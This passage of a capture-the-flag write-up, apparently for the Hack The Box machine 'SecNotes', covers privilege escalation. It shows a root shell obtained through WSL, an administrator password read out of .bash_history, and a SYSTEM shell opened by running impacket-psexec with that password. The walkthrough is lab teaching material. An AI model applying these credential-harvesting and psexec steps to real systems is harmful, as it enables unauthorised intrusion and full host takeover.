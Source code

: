### 6. Get to root?
To activate WSL, run it from Powershell.
```shell
C:\inetpub\new-site\jack>powershell -c wsl
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root)
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@SECNOTES:~#
```

### 7. Enumerate in WSL
The WSL system doesn't have too much to it. Mounted access to the filesystem does not provide any extra access that Tyler did not have before. However, there is content in root's .bash_history that appears to be administrator smb credentials.
```bash
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

### 8. Escalate to SYSTEM
With Administrator creds, use psexec to go straight to nt authority/system.
```bash
┌──(kali㉿kali)-[10.10.14.3]-[~/Desktop]
└─$ impacket-psexec Administrator:u6\!4ZwgwOM#^OBf#Nwnh@secnotes.htb
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on secnotes.htb.....
[*] Found writable share ADMIN$
[*] Uploading file HcauErhI.exe
[*] Opening SVCManager on secnotes.htb.....
[*] Creating service hOia on secnotes.htb.....
[*] Starting service hOia.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```